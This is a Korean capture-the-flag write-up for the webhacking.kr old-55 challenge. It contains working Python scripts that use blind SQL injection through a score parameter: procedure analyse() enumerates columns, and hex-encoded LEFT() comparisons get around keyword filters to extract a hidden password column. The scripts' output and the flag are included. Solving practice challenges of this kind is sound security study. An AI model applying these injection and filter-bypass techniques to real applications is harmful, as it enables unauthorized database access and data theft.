




# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

rank를 클릭하면 하단의 쿼리문이 나온다.

```php
mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");
```

score를 클릭하면 GET method로 score가 전달되고 id와 점수가 나온다.



old-53에서 배운 procedure analyse를 이용하여 DB 및 컬럼 명을 알아내자

```python
import requests
import bs4


CHALLENGE   = 'https://webhacking.kr/challenge/web-31/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(0, 5):
    score       = '2147483647 limit {},1 procedure analyse()'.format(i)
    url         = CHALLENGE + 'rank.php?score='+score
    req         = requests.get(url=url, headers=headers)
    soup        = bs4.BeautifulSoup(req.text, 'html.parser')
    print(soup.find_all('center')[0].text)

[Output]
id : webhacking.chall55.id // 
id : webhacking.chall55.score // 
id : webhacking.chall55.p4ssw0rd_1123581321 //
... 생략 ...
```

컬럼 명은 id, score, p4ssw0rd_1123581321로 3개가 있다.

select를 쓰면 no hack이라고 나온다.



p4ssw0rd_1123581321의 데이터 길이를 확인해 보자.

```python
import requests
import bs4

CHALLENGE   = 'https://webhacking.kr/challenge/web-31/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(64):
    score       = 'IF(LENGTH(p4ssw0rd_1123581321)={},1,2)'.format(i)
    url         = CHALLENGE + 'rank.php?score='+score
    req         = requests.get(url=url, headers=headers)
    soup        = bs4.BeautifulSoup(req.text, 'html.parser')
    if 'Piterpan' in soup.find_all('center')[0].text:
        print('flag length = {}'.format(i))
        break

[Output]
flag length = 31
```

substr 따옴표도 no hack이 떠서 필터링됨을 알 수 있다. left함수로 우회하자.

```python
import requests
import bs4
import string

CHALLENGE   = 'https://webhacking.kr/challenge/web-31/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag        = ''
for i in range(32):
    for c in string.printable.strip():
        score       = 'IF(LEFT(p4ssw0rd_1123581321,{})=0x{},1,2)'.format(i, (flag + c).encode().hex())
        url         = CHALLENGE + 'rank.php?score='+score
        req         = requests.get(url=url, headers=headers)
        soup        = bs4.BeautifulSoup(req.text, 'html.parser')
        if 'Piterpan' in soup.find_all('center')[0].text:
            flag += c
            break
print('flag = {}'.format(flag))

[Output]
flag = flag{easy_peasy_lemon_squeezy!}
```

FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**flag{easy_peasy_lemon_squeezy!}**